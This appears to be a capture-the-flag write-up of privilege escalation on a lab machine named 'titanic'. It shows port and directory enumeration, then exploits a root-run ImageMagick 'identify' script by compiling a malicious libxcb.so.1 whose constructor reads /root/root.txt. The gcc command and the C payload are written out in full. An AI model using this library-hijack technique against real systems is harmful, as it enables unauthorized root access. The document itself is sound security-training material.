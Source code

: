 I don't see the mysql running on the port specified on the docker file.
What catches my attention is what is running on port 35099.
```
developer@titanic:~$ netstat -ano | grep 35099
tcp        0      0 127.0.0.1:35099         0.0.0.0:*               LISTEN      off (0.00/0/0)
```

I don't know what that is... That port is marked as "unassigned" and is not a part of any protocol. Maybe some reverse shell from a user(?)

After searching for a bit, on the opt directory, which is where the optional packages are installed, I see this promising folders inside:
```
developer@titanic:/opt$ ls
app  containerd  scripts
```

The app folder is the python page.
I can't access to the cantainered folder but yes on scripts
```
developer@titanic:/opt$ ls containerd/
ls: cannot open directory 'containerd/': Permission denied
developer@titanic:/opt$ ls scripts
identify_images.sh
```

Reading the script I see that it uses **magik** to identify the images.
```
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

If I remember correctly, magik has some vulnerabilites we can exploit with the magic numbers to execute remote code, and also as root (I first found about this doing the Pilgrimage box)

More info on this page:
- https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

Following the POC of the github link, I create a shared library on the directory that magik will do the identify function, which can be seen at the top of the script (cd /opt/app/static/assets/images). What is important here is the command that will be executed, it's on the system line. I don't copy directly the file because that will also copy the permissions, instead I do a cat and a redirect: 
```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/zero/root.txt");
    exit(0);
}
EOF
```
